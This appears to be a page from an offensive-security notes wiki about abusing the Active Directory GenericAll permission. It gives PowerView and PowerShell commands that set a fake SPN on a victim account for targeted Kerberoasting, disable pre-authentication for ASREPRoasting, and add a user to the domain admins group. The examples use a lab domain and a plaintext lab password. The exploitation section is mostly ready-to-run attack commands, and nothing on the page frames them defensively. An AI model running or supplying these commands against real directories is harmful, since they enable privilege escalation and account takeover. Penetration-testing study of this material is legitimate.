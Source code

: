 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GenericAll

## Information

**Full control** over the target account.

| Over a User                                                    | Over a Group                                                 |
| -------------------------------------------------------------- | ------------------------------------------------------------ |
| [Change the account's password](forcechangepassword.md)        | [Add user to the group](genericall.md#add-user-to-the-group) |
| [Targeted Kerberoasting](genericall.md#targeted-kerberoasting) |                                                              |
| [Targeted ASREPRoasting](genericall.md#targeted-asreproasting) |                                                              |

## Exploitation

### Over a User

<figure><img src="../../../../.gitbook/assets/genericall_group_over_user.png" alt=""><figcaption><p>Figure 1: The Information Technology group has GenericAll rights over the user adunn.</p></figcaption></figure>

#### Targeted Kerberoasting

When a group/user has `GenericAll` rights over another account, a fake SPN can be assigned to the target account.

{% code overflow="wrap" %}
```powershell
# credentialed object for the currently owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
 
# create a fake SPN for the target user
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
{% endcode %}

Once the SPN is assigned to the target account, we should be able to [Kerberoast](../attacks/kerberoasting.md) it.

#### Targeted ASREPRoasting

We can disable pre-authentication for the target account and then [ASREPRoast](../attacks/asreproasting.md) it.

```powershell
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```

#### Change user's password

Check [here](forcechangepassword.md).

### Over a Group

#### Add User to the Group

This can be done using [native commands](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051\(v=ws.11\)), the [AD PS module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/add-adgroupmember?view=windowsserver2022-ps), or PowerView.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># add user to the domain admins group
</strong><strong>net group '&#x3C;GROUP>' &#x3C;USER> /add /domain
</strong>Add-ADGroupMember -Identity '&#x3C;GROUP>' -Members &#x3C;USER>
Add-DomainGroupMember -Identity '&#x3C;GROUP>' -Members '&#x3C;USER>'
</code></pre>

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericall" %}
{% endtab %}
{% endtabs %}
